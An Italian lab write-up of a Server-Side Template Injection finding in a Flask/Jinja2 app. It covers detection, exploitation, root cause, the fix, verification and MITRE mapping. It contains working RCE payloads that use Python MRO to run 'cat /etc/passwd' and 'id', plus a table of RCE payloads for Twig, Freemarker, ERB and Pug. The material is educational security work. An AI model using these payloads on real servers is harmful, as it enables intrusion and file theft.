



> [English](README.en.md) | **Italiano**

# Vulnerability Assessment: Server-Side Template Injection (SSTI)

> - **Fase:** Web Attack - Server Side Template Injection
> - **Visibilita:** Media - richieste HTTP con payload `{{ }}` nel parametro URL, simili a input utente normali
> - **Prerequisiti:** Applicazione web con motore di template lato server (Jinja2, Twig, Freemarker), parametro di input riflesso nella risposta
> - **Output:** Conferma SSTI (math injection), Remote Code Execution tramite Python MRO, dump di `/etc/passwd`, finding WEB-008

---

**ID Finding:** `WEB-008` | **Severity:** `Critico` | **CVSS v3.1:** 9.8

---

## 1 Executive Summary

Durante l'analisi di sicurezza dell'applicazione web (ambiente di laboratorio), è stata identificata una vulnerabilità critica di tipo Server-Side Template Injection (SSTI).

Il difetto risiede nella gestione non sicura dell'input utente all'interno del motore di template Jinja2.

Questa vulnerabilità permette a un attaccante remoto e non autenticato di evadere la sandbox dell'applicazione ed eseguire comandi arbitrari sul sistema operativo sottostante (Remote Code Execution).

L'impatto è valutato come CRITICO poiché garantisce all'attaccante il controllo totale del server, l'accesso a file sensibili (es. `/etc/passwd`, chiavi SSH) e la possibilità di pivotare verso la rete interna.

---

## 2 Technical Analysis

#### Fase 1: Detection & Verification

L'attività di ricognizione ha evidenziato che il parametro `name` viene riflesso nella risposta HTML senza adeguata sanitizzazione.
Per confermare l'uso di un motore di template lato server, è stato iniettato un payload matematico.

- Payload: `{{ 7*7 }}`
- Risultato: Il server ha renderizzato `49`. Questo comportamento conferma che l'input viene valutato ed eseguito dal motore Jinja2 prima di essere inviato al client.



#### Fase 2: Exploitation (Remote Code Execution)

Sfruttando la capacità del template engine di accedere agli oggetti interni di Python (tramite Method Resolution Order - MRO), è stato costruito un exploit chain per accedere al modulo `os` ed eseguire comandi di sistema.

Exploit Payload:

```Python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read() }}
```



Analisi dell'Evidenza:

L'iniezione del payload ha avuto successo. Il server ha eseguito il comando shell `cat /etc/passwd` e ne ha restituito l'output standard nel corpo della risposta HTTP.

Come mostrato nello screenshot sottostante, è stato possibile esfiltrare la lista degli utenti di sistema (incluso l'utente `root`), dimostrando la compromissione completa della riservatezza e dell'integrità del sistema.

---

## 3 Root Cause Analysis (Code Review)

L'analisi del codice sorgente (`ssti_vuln.py`) ha rivelato la causa radice del problema. L'applicazione utilizza la concatenazione di stringhe (f-string) per inserire l'input utente nel template prima che questo venga processato dal motore di rendering.

Codice Vulnerabile (Insecure Implementation):

```Python
# VULNERABILITÀ: L'input viene concatenato direttamente nella struttura del template.
person = request.args.get('name', 'Hacker')
template = f"<h1>Ciao, {person}!</h1>" 
return render_template_string(template)
```

In questa configurazione, qualsiasi carattere speciale (come `{{` o `}}`) inserito dall'utente viene interpretato come istruzione di codice dal motore Jinja2.

---

## 4 Remediation Plan

Per mitigare la vulnerabilità, è necessario separare rigorosamente la logica di presentazione dai dati. Non si deve mai concatenare input utente direttamente in una stringa di template.

Secure Coding Pattern:

Utilizzare il meccanismo di contesto nativo di Flask/Jinja2. Passare le variabili come argomenti nominati alla funzione di rendering. Il motore si occuperà automaticamente dell'escaping dei caratteri pericolosi, trattando l'input come semplice testo e non come codice eseguibile.

Codice Corretto (Fix):

```Python
# SOLUZIONE: Passare l'input come variabile di contesto.
person = request.args.get('name', 'Guest')
return render_template_string("<h1>Ciao, {{ person }}!</h1>", person=person)
```

---

## 5 Post-Remediation Verification

Dopo l'implementazione del piano di rientro (Remediation Plan), è stata eseguita una nuova sessione di test per verificare l'efficacia delle contromisure adottate nel codice sorgente.

1. Patch Confirmation

Il codice sorgente è stato aggiornato utilizzando le Context Variables di Jinja2, eliminando la concatenazione diretta tramite f-strings:

```Python
# Codice aggiornato e verificato
person = request.args.get('name', 'Hacker')
return render_template_string("<h1>Ciao, {{ person }}!</h1>", person=person)
```

2. Risultati dei Test di Verifica

Sono stati ripetuti i vettori di attacco precedentemente andati a buon fine.

- Test di Detection (Math Injection): L'inserimento del payload `{{ 7*7 }}` non ha più prodotto l'esecuzione del calcolo lato server.
- Risultato: L'applicazione ha restituito la stringa letterale `{{ 7*7 }}` nel browser. Questo conferma che il motore di template esegue ora l'escaping automatico dei caratteri speciali, trattando l'input esclusivamente come Plain Text.



Evidenza della Mitigazione:

Come mostrato nello screenshot, l'input malevolo viene riflesso fedelmente senza essere interpretato dal server, neutralizzando ogni tentativo di escalation verso RCE.

---

## 6 Conclusioni

La vulnerabilità SSTI è stata correttamente mitigata tramite l'adozione di pratiche di Secure Coding. Si raccomanda di mantenere l'approccio di separazione tra logica e dati per tutti i futuri sviluppi che coinvolgano motori di template.

---

## Analisi a Basso Livello: SSTI Detection Tree e Python MRO

### Decision Tree per Identificare il Template Engine

Non tutti i template engine rispondono allo stesso payload. L'identificazione del motore segue un albero decisionale:

```
Input: ${7*7}
    |
    +-- Output: 49 -> Possibile Freemarker, Velocity, Mako
    +-- Output: ${7*7} -> Non Freemarker
         |
         Input: {{7*7}}
             |
             +-- Output: 49 -> Jinja2, Twig, Nunjucks
             |    |
             |    Input: {{7*'7'}}
             |        +-- Output: 7777777 -> Jinja2 (Python string multiplication)
             |        +-- Output: 49 -> Twig (PHP)
             |        +-- Errore -> Nunjucks (JS)
             |
             +-- Output: {{7*7}} -> Non template o auto-escaped
                  |
                  Input: #{7*7}
                      +-- Output: 49 -> Thymeleaf (Java)
                      +-- Output: #{7*7} -> ERB, Slim, altro
```

### Method Resolution Order (MRO) - La Catena di Escape

L'exploit SSTI in Jinja2 sfrutta l'MRO di Python per risalire dalla sandbox del template all'interprete Python completo:

```python
# La catena di escape dal template alla shell:

# Step 1: Partire da un oggetto qualsiasi nel contesto del template
''               # stringa vuota (sempre disponibile)

# Step 2: Risalire la gerarchia delle classi Python
''.__class__     # -> <class 'str'>
''.__class__.__mro__  # -> (<class 'str'>, <class 'object'>)

# Step 3: Da 'object', accedere a TUTTE le sottoclassi caricate in memoria
''.__class__.__mro__[1].__subclasses__()
# -> [<class 'type'>, <class 'weakref'>, ..., <class 'subprocess.Popen'>, ...]

# Step 4: Trovare una classe utile (os._wrap_close, subprocess.Popen, etc.)
# Indice varia per versione Python - spesso 132, 396, o ricerca con loop

# Step 5: Esecuzione comando
''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['popen']('id').read()

# Payload compatto (alternativo a MRO):
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

### SSTI in Altri Template Engine

| Engine | Linguaggio | Payload Detection | Payload RCE |
| :--- | :--- | :--- | :--- |
| Jinja2 | Python | `{{7*7}}` -> 49 | `{{self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}` |
| Twig | PHP | `{{7*7}}` -> 49 | `{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}` |
| Freemarker | Java | `${7*7}` -> 49 | `<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}` |
| ERB | Ruby | `<%= 7*7 %>` -> 49 | `<%= system("id") %>` |
| Pug | Node.js | `#{7*7}` -> 49 | `#{root.process.mainModule.require('child_process').execSync('id')}` |

---

## Esperienza di Laboratorio

Il test iniziale con `{{ 7*7 }}` ha prodotto `49`, confermando immediatamente la presenza di SSTI. La semplicita del payload di detection contrasta con la complessita dell'exploit RCE: passare da "49" a "esecuzione di comandi" richiede la comprensione dell'MRO di Python e della gerarchia delle classi, concetti non banali per chi non conosce gli internals del linguaggio.

Il payload `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read() }}` e stato scelto perche funziona su tutte le versioni di Jinja2/Python senza dipendere da un indice specifico nella lista `__subclasses__()`. I payload basati su indice numerico (es. `__subclasses__()[132]`) sono fragili perche l'indice cambia con la versione di Python e i moduli importati.

La verifica post-remediation ha dimostrato che il fix (passare la variabile come contesto invece di concatenarla nel template) e definitivo: Jinja2 applica automaticamente l'escaping HTML sulle variabili di contesto, convertendo `{{` in `&#123;&#123;` prima del rendering. Questo impedisce strutturalmente l'interpretazione dei tag template, indipendentemente dal payload usato.

---

## Mappatura MITRE ATT&CK

| Tattica | Tecnica | ID MITRE | Descrizione dell'Azione |
| :--- | :--- | :--- | :--- |
| Initial Access | Exploit Public-Facing Application | `T1190` | Exploitation della SSTI Jinja2 tramite payload `{{ 7*7 }}` per confermare l'esecuzione di codice lato server, seguita da escalation a RCE (WEB-008) |
| Execution | Command and Scripting Interpreter: Python | `T1059.006` | Accesso al modulo `os` di Python tramite Method Resolution Order (MRO) per eseguire comandi di sistema: `popen('cat /etc/passwd').read()` (WEB-008) |
| Discovery | File and Directory Discovery | `T1083` | Lettura del file `/etc/passwd` tramite RCE, rivelando la lista degli utenti di sistema incluso `root` (WEB-008) |

---

> **Nota:** La vulnerabilita SSTI e stata identificata e sfruttata su un'applicazione Flask/Jinja2
> di laboratorio locale, sviluppata appositamente per dimostrare il pattern insicuro di concatenazione
> dell'input nel template. Il finding include sia il PoC di exploitation che la verifica post-
> remediation, documentando l'intero ciclo di vita della vulnerabilita dalla scoperta alla correzione.